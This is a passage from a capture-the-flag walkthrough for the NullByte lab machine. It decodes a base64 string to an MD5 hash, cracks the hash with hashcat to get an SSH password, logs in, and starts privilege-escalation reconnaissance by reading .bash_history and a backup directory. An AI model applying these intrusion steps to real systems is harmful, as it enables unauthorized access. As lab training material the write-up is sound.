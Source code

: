We **decode BASE64**.
```
root@kali:~/NullByte# echo "YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE=" | base64 -d  
c6d6bd7ebf806f43c76acc3681703b81
```

We crack **MD5 hash**.
```
root@kali:~/NullByte# echo "c6d6bd7ebf806f43c76acc3681703b81" > hash.txt
root@kali:~/NullByte# hashcat -m 0 -a 0 hash.txt rockyou.txt
```
Our password is *omega* 
Note: You can use **CrackStation** also.

Then we connect to our victim via SSH.
```
root@kali:~/NullByte# ssh ssh://ramses@nullbyte.local:777  
...
ramses@NullByte:~$
```

## Privilege Escalation
In this part of the game, we will find some vulnerability to gain root access.
I try to read **.bash_history** file. It is crucial step during Privilege Escalation.
```
ramses@NullByte:~$ ls /home/  
bob eric ramses  
ramses@NullByte:~$ ls -la  
total 24  
drwxr-xr-x 2 ramses ramses 4096 Aug 2 2015 .  
drwxr-xr-x 5 root root 4096 Aug 2 2015 ..  
-rw------- 1 ramses ramses 96 Aug 2 2015 .bash_history  
-rw-r--r-- 1 ramses ramses 220 Aug 2 2015 .bash_logout  
-rw-r--r-- 1 ramses ramses 3515 Aug 2 2015 .bashrc  
-rw-r--r-- 1 ramses ramses 675 Aug 2 2015 .profile   
ramses@NullByte:~$ cat .bash_history  
sudo -s  
su eric  
exit  
ls  
clear  
cd /var/www  
cd backup/  
ls  
./procwatch  
clear  
sudo -s  
cd /  
ls  
exit   
```
There is one interesting directory - */var/www*. I move on this directory.
```
ramses@NullByte:~$ cd /var/www/  
ramses@NullByte:/var/www$ ls  
backup html  
ramses@NullByte:/var/www$ cd backup/  
ramses@NullByte:/var/www/backup$ ls  
procwatch readme.txt  
ramses@NullByte:/var/www/backup$ cat readme.txt  
I have to fix this mess...
```
